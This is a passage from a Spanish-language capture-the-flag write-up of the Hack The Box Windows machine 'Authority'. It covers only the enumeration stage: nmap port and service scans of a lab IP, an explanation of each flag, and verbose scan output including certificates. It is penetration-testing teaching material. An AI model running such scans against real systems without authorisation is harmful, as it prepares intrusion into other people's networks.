

Authority es una máquina Windows de dificultad media que resalta los peligros de las configuraciones incorrectas, la reutilización de contraseñas, el almacenamiento de credenciales en compartidos, y demuestra cómo los ajustes predeterminados en Active Directory (como la capacidad para que todos los usuarios del dominio puedan agregar hasta 10 equipos al dominio) pueden combinarse con otros problemas (plantillas de certificados AD CS vulnerables) para tomar el control de un dominio.


# Enumeración

Para la enumeración usaremos la herramienta de `nmap` y iniciaremos por enumerar los puertos que se encuentran en `open`

```python
❯ nmap -p- --open --min-rate 5000 -vvv -Pn -n 10.10.11.222 -oG allportsScan
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
80/tcp    open  http             syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5985/tcp  open  wsman            syn-ack
8443/tcp  open  https-alt        syn-ack
9389/tcp  open  adws             syn-ack
47001/tcp open  winrm            syn-ack
49664/tcp open  unknown          syn-ack
49665/tcp open  unknown          syn-ack
49666/tcp open  unknown          syn-ack
49667/tcp open  unknown          syn-ack
49671/tcp open  unknown          syn-ack
49674/tcp open  unknown          syn-ack
49675/tcp open  unknown          syn-ack
49676/tcp open  unknown          syn-ack
49677/tcp open  unknown          syn-ack
49684/tcp open  unknown          syn-ack
49687/tcp open  unknown          syn-ack
49764/tcp open  unknown          syn-ack
59391/tcp open  unknown          syn-ack
```

- `-p-`: Este parámetro indica a `nmap` que escanee todos los puertos, desde el puerto 1 hasta el puerto 65535. El guion (`-`) indica un rango de puertos completo.
    
- `--open`: Este parámetro hace que `nmap` muestre solo los puertos que están abiertos y responda a las solicitudes de escaneo.
    
- `--min-rate 5000`: Este parámetro establece la velocidad mínima de paquetes por segundo (pps) para enviar durante el escaneo. En este caso, se establece en 5000 paquetes por segundo.
    
- `-vvv`: Este parámetro incrementa el nivel de verbosidad del escaneo, mostrando una salida muy detallada que incluye información adicional sobre el progreso del escaneo y los resultados obtenidos.
    
- `-Pn`: Este parámetro indica a `nmap` que no realice la detección de hosts en vivo antes de iniciar el escaneo de puertos. Esto puede ser útil si sabes que el host objetivo está activo y no quieres perder tiempo en la detección de hosts.
    
- `-n`: Este parámetro indica a `nmap` que no realice la resolución de DNS durante el escaneo, lo que acelera el proceso al evitar la búsqueda de nombres de host.
    
- `10.10.11.222`: Esta es la dirección IP del host que se va a escanear.
    
- `-oG allportsScan`: Este parámetro indica a `nmap` que guarde los resultados del escaneo en formato "greppable" (compatible con `grep`) en un archivo llamado "allportsScan".

Luego de tener los puertos abiertos procederemos a enumerar los servicios y versiones que se ejecutan en cada uno de servicios.

```python
❯ nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8443,9389,47001,49664,49665,49666,49667,49671,49674,49675,49676,49677,49684,49687,49764,59391 -sC -sV -Pn -n -vvv 10.10.11.222 -oN servicesScan

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-03-08 02:12:52Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2024-03-08T02:14:02+00:00; +3h59m56s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA/domainComponent=htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after:  2024-08-09T23:13:21
| MD5:   d494:7710:6f6b:8100:e4e1:9cf2:aa40:dae1
| SHA-1: dded:b994:b80c:83a9:db0b:e7d3:5853:ff8e:54c6:2d0b
| -----BEGIN CERTIFICATE-----
| MIIFxjCCBK6gAwIBAgITPQAAAANt51hU5N024gAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBGMRQwEgYKCZImiZPyLGQBGRYEY29ycDETMBEGCgmSJomT8ixkARkWA2h0YjEZ
| MBcGA1UEAxMQaHRiLUFVVEhPUklUWS1DQTAeFw0yMjA4MDkyMzAzMjFaFw0yNDA4
| MDkyMzEzMjFaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDVsJL0
| ae0n8L0Eg5BAHi8Tmzmbe+kIsXM6NZvAuqGgUsWNzsT4JNWsZqrRoHMr+kMC4kpX
| 4QuOHTe74iyB8TvucgvwxKEi9uZl6C5unv3WNFhZ9KoTOCno26adxqKPbzS5KQtk
| ZCvQfqQKOML0DuzA86kwh4uY0SjVR+biRj4IkkokWrPDWzzow0gCpO5HNcKPhSTl
| kAfdmdQRPjkXQq3h2QnfYAwOMGoGeCiA1whIo/dvFB6T9Kx4Vdcwi6Hkg4CwmbSF
| CHGbeNGtMGeWw/s24QWZ6Ju3J7uKFxDXoWBNLi4THL72d18jcb+i4jYlQQ9bxMfI
| zWQRur1QXvavmIM5AgMBAAGjggLxMIIC7TA9BgkrBgEEAYI3FQcEMDAuBiYrBgEE
| AYI3FQiEsb4Mh6XAaYK5iwiG1alHgZTHDoF+hKv0ccfMXgIBZAIBAjAyBgNVHSUE
| KzApBgcrBgEFAgMFBgorBgEEAYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYD
| VR0PAQH/BAQDAgWgMEAGCSsGAQQBgjcVCgQzMDEwCQYHKwYBBQIDBTAMBgorBgEE
| AYI3FAICMAoGCCsGAQUFBwMBMAoGCCsGAQUFBwMCMB0GA1UdDgQWBBTE4oKGc3Jv
| tctii3A/pyevpIBM/TAfBgNVHSMEGDAWgBQrzmT6FcxmkoQ8Un+iPuEpCYYPfTCB
| zQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj1odGItQVVUSE9SSVRZ
| LUNBLENOPWF1dGhvcml0eSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1odGIsREM9Y29ycD9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaB
| n2xkYXA6Ly8vQ049aHRiLUFVVEhPUklUWS1DQSxDTj1BSUEsQ049UHVibGljJTIw
| S2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1o
| dGIsREM9Y29ycD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlm
| aWNhdGlvbkF1dGhvcml0eTBUBgNVHREBAf8ESjBIoCMGCisGAQQBgjcUAgOgFQwT
| QVVUSE9SSVRZJEBodGIuY29ycIISYXV0aG9yaXR5Lmh0Yi5jb3JwgghodGIuY29y
| cIIDSFRCMA0GCSqGSIb3DQEBCwUAA4IBAQCH8O6l8pRsA/pyKKsSSkie8ijDhCBo
| zoOuHiloC694xvs41w/Yvj9Z0oLiIkroSFPUPTDZOFqOLuFSDbnDNtKamzfbSfJR
| r4rj3F3r7S3wwK38ElkoD8RbqDiCHan+2bSf7olB1AdS+xhp9IZvBWZOlT0xXjr5
| ptIZERSRTRE8qyeX7+I4hpvGTBjhvdb5LOnG7spc7F7UHk79Z+C3BWG19tyS4fw7
| /9jm2pW0Maj1YEnX7frbYtYlO7iQ3KeDw1PSCMhMlipovbCpMJ1YOX9yeQgvvcg0
| E0r8uQuHmwNTgD5dUWuHtDv/oG7j63GuTNwEfZhtzR2rnN9Vf2IH9Zal
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2024-03-08T02:14:01+00:00; +3h59m56s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA/domainComponent=htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after:  2024-08-09T23:13:21
| MD5:   d494:7710:6f6b:8100:e4e1:9cf2:aa40:dae1
| SHA-1: dded:b994:b80c:83a9:db0b:e7d3:5853:ff8e:54c6:2d0b
| -----BEGIN CERTIFICATE-----
| MIIFxjCCBK6gAwIBAgITPQAAAANt51hU5N024gAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBGMRQwEgYKCZImiZPyLGQBGRYEY29ycDETMBEGCgmSJomT8ixkARkWA2h0YjEZ
| MBcGA1UEAxMQaHRiLUFVVEhPUklUWS1DQTAeFw0yMjA4MDkyMzAzMjFaFw0yNDA4
| MDkyMzEzMjFaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDVsJL0
| ae0n8L0Eg5BAHi8Tmzmbe+kIsXM6NZvAuqGgUsWNzsT4JNWsZqrRoHMr+kMC4kpX
| 4QuOHTe74iyB8TvucgvwxKEi9uZl6C5unv3WNFhZ9KoTOCno26adxqKPbzS5KQtk
| ZCvQfqQKOML0DuzA86kwh4uY0SjVR+biRj4IkkokWrPDWzzow0gCpO5HNcKPhSTl
| kAfdmdQRPjkXQq3h2QnfYAwOMGoGeCiA1whIo/dvFB6T9Kx4Vdcwi6Hkg4CwmbSF
| CHGbeNGtMGeWw/s24QWZ6Ju3J7uKFxDXoWBNLi4THL72d18jcb+i4jYlQQ9bxMfI
| zWQRur1QXvavmIM5AgMBAAGjggLxMIIC7TA9BgkrBgEEAYI3FQcEMDAuBiYrBgEE
| AYI3FQiEsb4Mh6XAaYK5iwiG1alHgZTHDoF+hKv0ccfMXgIBZAIBAjAyBgNVHSUE
| KzApBgcrBgEFAgMFBgorBgEEAYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYD
| VR0PAQH/BAQDAgWgMEAGCSsGAQQBgjcVCgQzMDEwCQYHKwYBBQIDBTAMBgorBgEE
| AYI3FAICMAoGCCsGAQUFBwMBMAoGCCsGAQUFBwMCMB0GA1UdDgQWBBTE4oKGc3Jv
| tctii3A/pyevpIBM/TAfBgNVHSMEGDAWgBQrzmT6FcxmkoQ8Un+iPuEpCYYPfTCB
| zQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj1odGItQVVUSE9SSVRZ
| LUNBLENOPWF1dGhvcml0eSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1odGIsREM9Y29ycD9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaB
| n2xkYXA6Ly8vQ049aHRiLUFVVEhPUklUWS1DQSxDTj1BSUEsQ049UHVibGljJTIw
| S2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1o
| dGIsREM9Y29ycD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlm
| aWNhdGlvbkF1dGhvcml0eTBUBgNVHREBAf8ESjBIoCMGCisGAQQBgjcUAgOgFQwT
| QVVUSE9SSVRZJEBodGIuY29ycIISYXV0aG9yaXR5Lmh0Yi5jb3JwgghodGIuY29y
| cIIDSFRCMA0GCSqGSIb3DQEBCwUAA4IBAQCH8O6l8pRsA/pyKKsSSkie8ijDhCBo
| zoOuHiloC694xvs41w/Yvj9Z0oLiIkroSFPUPTDZOFqOLuFSDbnDNtKamzfbSfJR
| r4rj3F3r7S3wwK38ElkoD8RbqDiCHan+2bSf7olB1AdS+xhp9IZvBWZOlT0xXjr5
| ptIZERSRTRE8qyeX7+I4hpvGTBjhvdb5LOnG7spc7F7UHk79Z+C3BWG19tyS4fw7
| /9jm2pW0Maj1YEnX7frbYtYlO7iQ3KeDw1PSCMhMlipovbCpMJ1YOX9yeQgvvcg0
| E0r8uQuHmwNTgD5dUWuHtDv/oG7j63GuTNwEfZhtzR2rnN9Vf2IH9Zal
|_-----END CERTIFICATE-----
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2024-03-08T02:14:02+00:00; +3h59m57s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA/domainComponent=htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after:  2024-08-09T23:13:21
| MD5:   d494:7710:6f6b:8100:e4e1:9cf2:aa40:dae1
| SHA-1: dded:b994:b80c:83a9:db0b:e7d3:5853:ff8e:54c6:2d0b
| -----BEGIN CERTIFICATE-----
| MIIFxjCCBK6gAwIBAgITPQAAAANt51hU5N024gAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBGMRQwEgYKCZImiZPyLGQBGRYEY29ycDETMBEGCgmSJomT8ixkARkWA2h0YjEZ
| MBcGA1UEAxMQaHRiLUFVVEhPUklUWS1DQTAeFw0yMjA4MDkyMzAzMjFaFw0yNDA4
| MDkyMzEzMjFaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDVsJL0
| ae0n8L0Eg5BAHi8Tmzmbe+kIsXM6NZvAuqGgUsWNzsT4JNWsZqrRoHMr+kMC4kpX
| 4QuOHTe74iyB8TvucgvwxKEi9uZl6C5unv3WNFhZ9KoTOCno26adxqKPbzS5KQtk
| ZCvQfqQKOML0DuzA86kwh4uY0SjVR+biRj4IkkokWrPDWzzow0gCpO5HNcKPhSTl
| kAfdmdQRPjkXQq3h2QnfYAwOMGoGeCiA1whIo/dvFB6T9Kx4Vdcwi6Hkg4CwmbSF
| CHGbeNGtMGeWw/s24QWZ6Ju3J7uKFxDXoWBNLi4THL72d18jcb+i4jYlQQ9bxMfI
| zWQRur1QXvavmIM5AgMBAAGjggLxMIIC7TA9BgkrBgEEAYI3FQcEMDAuBiYrBgEE
| AYI3FQiEsb4Mh6XAaYK5iwiG1alHgZTHDoF+hKv0ccfMXgIBZAIBAjAyBgNVHSUE
| KzApBgcrBgEFAgMFBgorBgEEAYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYD
| VR0PAQH/BAQDAgWgMEAGCSsGAQQBgjcVCgQzMDEwCQYHKwYBBQIDBTAMBgorBgEE
| AYI3FAICMAoGCCsGAQUFBwMBMAoGCCsGAQUFBwMCMB0GA1UdDgQWBBTE4oKGc3Jv
| tctii3A/pyevpIBM/TAfBgNVHSMEGDAWgBQrzmT6FcxmkoQ8Un+iPuEpCYYPfTCB
| zQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj1odGItQVVUSE9SSVRZ
| LUNBLENOPWF1dGhvcml0eSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1odGIsREM9Y29ycD9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaB
| n2xkYXA6Ly8vQ049aHRiLUFVVEhPUklUWS1DQSxDTj1BSUEsQ049UHVibGljJTIw
| S2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1o
| dGIsREM9Y29ycD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlm
| aWNhdGlvbkF1dGhvcml0eTBUBgNVHREBAf8ESjBIoCMGCisGAQQBgjcUAgOgFQwT
| QVVUSE9SSVRZJEBodGIuY29ycIISYXV0aG9yaXR5Lmh0Yi5jb3JwgghodGIuY29y
| cIIDSFRCMA0GCSqGSIb3DQEBCwUAA4IBAQCH8O6l8pRsA/pyKKsSSkie8ijDhCBo
| zoOuHiloC694xvs41w/Yvj9Z0oLiIkroSFPUPTDZOFqOLuFSDbnDNtKamzfbSfJR
| r4rj3F3r7S3wwK38ElkoD8RbqDiCHan+2bSf7olB1AdS+xhp9IZvBWZOlT0xXjr5
| ptIZERSRTRE8qyeX7+I4hpvGTBjhvdb5LOnG7spc7F7UHk79Z+C3BWG19tyS4fw7
| /9jm2pW0Maj1YEnX7frbYtYlO7iQ3KeDw1PSCMhMlipovbCpMJ1YOX9yeQgvvcg0
| E0r8uQuHmwNTgD5dUWuHtDv/oG7j63GuTNwEfZhtzR2rnN9Vf2IH9Zal
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA/domainComponent=htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after:  2024-08-09T23:13:21
| MD5:   d494:7710:6f6b:8100:e4e1:9cf2:aa40:dae1
| SHA-1: dded:b994:b80c:83a9:db0b:e7d3:5853:ff8e:54c6:2d0b
| -----BEGIN CERTIFICATE-----
| MIIFxjCCBK6gAwIBAgITPQAAAANt51hU5N024gAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBGMRQwEgYKCZImiZPyLGQBGRYEY29ycDETMBEGCgmSJomT8ixkARkWA2h0YjEZ
| MBcGA1UEAxMQaHRiLUFVVEhPUklUWS1DQTAeFw0yMjA4MDkyMzAzMjFaFw0yNDA4
| MDkyMzEzMjFaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDVsJL0
| ae0n8L0Eg5BAHi8Tmzmbe+kIsXM6NZvAuqGgUsWNzsT4JNWsZqrRoHMr+kMC4kpX
| 4QuOHTe74iyB8TvucgvwxKEi9uZl6C5unv3WNFhZ9KoTOCno26adxqKPbzS5KQtk
| ZCvQfqQKOML0DuzA86kwh4uY0SjVR+biRj4IkkokWrPDWzzow0gCpO5HNcKPhSTl
| kAfdmdQRPjkXQq3h2QnfYAwOMGoGeCiA1whIo/dvFB6T9Kx4Vdcwi6Hkg4CwmbSF
| CHGbeNGtMGeWw/s24QWZ6Ju3J7uKFxDXoWBNLi4THL72d18jcb+i4jYlQQ9bxMfI
| zWQRur1QXvavmIM5AgMBAAGjggLxMIIC7TA9BgkrBgEEAYI3FQcEMDAuBiYrBgEE
| AYI3FQiEsb4Mh6XAaYK5iwiG1alHgZTHDoF+hKv0ccfMXgIBZAIBAjAyBgNVHSUE
| KzApBgcrBgEFAgMFBgorBgEEAYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYD
| VR0PAQH/BAQDAgWgMEAGCSsGAQQBgjcVCgQzMDEwCQYHKwYBBQIDBTAMBgorBgEE
| AYI3FAICMAoGCCsGAQUFBwMBMAoGCCsGAQUFBwMCMB0GA1UdDgQWBBTE4oKGc3Jv
| tctii3A/pyevpIBM/TAfBgNVHSMEGDAWgBQrzmT6FcxmkoQ8Un+iPuEpCYYPfTCB
| zQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj1odGItQVVUSE9SSVRZ
| LUNBLENOPWF1dGhvcml0eSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1odGIsREM9Y29ycD9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaB
| n2xkYXA6Ly8vQ049aHRiLUFVVEhPUklUWS1DQSxDTj1BSUEsQ049UHVibGljJTIw
| S2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1o
| dGIsREM9Y29ycD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlm
| aWNhdGlvbkF1dGhvcml0eTBUBgNVHREBAf8ESjBIoCMGCisGAQQBgjcUAgOgFQwT
| QVVUSE9SSVRZJEBodGIuY29ycIISYXV0aG9yaXR5Lmh0Yi5jb3JwgghodGIuY29y
| cIIDSFRCMA0GCSqGSIb3DQEBCwUAA4IBAQCH8O6l8pRsA/pyKKsSSkie8ijDhCBo
| zoOuHiloC694xvs41w/Yvj9Z0oLiIkroSFPUPTDZOFqOLuFSDbnDNtKamzfbSfJR
| r4rj3F3r7S3wwK38ElkoD8RbqDiCHan+2bSf7olB1AdS+xhp9IZvBWZOlT0xXjr5
| ptIZERSRTRE8qyeX7+I4hpvGTBjhvdb5LOnG7spc7F7UHk79Z+C3BWG19tyS4fw7
| /9jm2pW0Maj1YEnX7frbYtYlO7iQ3KeDw1PSCMhMlipovbCpMJ1YOX9yeQgvvcg0
| E0r8uQuHmwNTgD5dUWuHtDv/oG7j63GuTNwEfZhtzR2rnN9Vf2IH9Zal
|_-----END CERTIFICATE-----
|_ssl-date: 2024-03-08T02:14:02+00:00; +3h59m57s from scanner time.
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8443/tcp  open  ssl/https-alt syn-ack
| ssl-cert: Subject: commonName=172.16.2.118
| Issuer: commonName=172.16.2.118
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-03-05T16:38:10
| Not valid after:  2026-03-08T04:16:34
| MD5:   e620:f57c:62bf:e122:bce4:3f3b:91a6:a2db
| SHA-1: 4453:7749:fd9c:eb14:a034:6ff7:6c1e:c189:3623:9f42
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIGEmiQT73iMA0GCSqGSIb3DQEBCwUAMBcxFTATBgNVBAMM
| DDE3Mi4xNi4yLjExODAeFw0yNDAzMDUxNjM4MTBaFw0yNjAzMDgwNDE2MzRaMBcx
| FTATBgNVBAMMDDE3Mi4xNi4yLjExODCCASIwDQYJKoZIhvcNAQEBBQADggEPADCC
| AQoCggEBAK71rQUerbV5jLfjqPrkwWcAS0lBW4hUkrsIF78U2Yts0PeZfujbTSbH
| tttHks1xmlx5CXf7uhZthi48HKUvSF/EfCnksILsJUzS0yKWyUxHkF/VEBHNhRoA
| wJ9kdyi77Y2YTezb2+dmO/rVFPVgcMsbWa1lFubRP6b43UHH649oppS2Gyk8uNEk
| h96893oZLKXVxby/3EpRiIeHjP3nNyvF0fQnWIAdNn/XKEZRZKUQW3CN1NLlqvKB
| JSh0NS3XdAjrRQ1SOyh/pA2979pbE50NwvAjWkX9m/Q/EY2vPnOy5Bx9OVwOEOl/
| EJK7M7Mn8f60ghYvIFxvXGLnxTZaKR8CAwEAAaM4MDYwDAYDVR0TAQH/BAIwADAO
| BgNVHQ8BAf8EBAMCBaAwFgYDVR0lAQH/BAwwCgYIKwYBBQUHAwEwDQYJKoZIhvcN
| AQELBQADggEBAEhJVqAoH4xKNBbK4oxH7PDV2DfGujV6W2qOZya+/E8TTQMNPAVd
| xkL/h+4ewVxPRsly+2GfE50spHQhfndnprDj5NtGK8EScbSW9o2l72mIEPHCyBnb
| BfQDSPZrXo8Egv4Wpd/j2jHeSnaxWU/KNBz5MDtKhk6K2bc9uxlWjbZcm5ZZJQvY
| p+SivDsnGnLkxRxyCI9oyi+SxkyQAJRsJwzBVsi1pFdtmjCPr35UFToWLh0Q6otH
| LjvHIM9hudYijOx0sv6G7ZScuUVGkBDaz5p0PLgoJ55K3OVNtfCGeOMKDy/f3TuQ
| ZpD+uVjb006ezg/GwCIRKOk0KxAXpbhr2zs=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: F588322AAF157D82BB030AF1EFFD8CF9
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=ISO-8859-1
|     Content-Length: 82
|     Date: Fri, 08 Mar 2024 02:13:00 GMT
|     Connection: close
|     <html><head><meta http-equiv="refresh" content="0;URL='/pwm'"/></head></html>
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=ISO-8859-1
|     Content-Length: 82
|     Date: Fri, 08 Mar 2024 02:12:59 GMT
|     Connection: close
|     <html><head><meta http-equiv="refresh" content="0;URL='/pwm'"/></head></html>
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET, HEAD, POST, OPTIONS
|     Content-Length: 0
|     Date: Fri, 08 Mar 2024 02:12:59 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 1936
|     Date: Fri, 08 Mar 2024 02:13:07 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> Invalid character found in the HTTP protocol [RTSP&#47;1.00x0d0x0a0x0d0x0a...]</p><p><b>Description</b> The server cannot or will not process the request due to something that is perceived to be a client error (e.g., malformed request syntax, invalid
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack Microsoft Windows RPC
49676/tcp open  msrpc         syn-ack Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack Microsoft Windows RPC
49684/tcp open  msrpc         syn-ack Microsoft Windows RPC
49687/tcp open  msrpc         syn-ack Microsoft Windows RPC
49764/tcp open  msrpc         syn-ack Microsoft Windows RPC
59391/tcp open  msrpc         syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
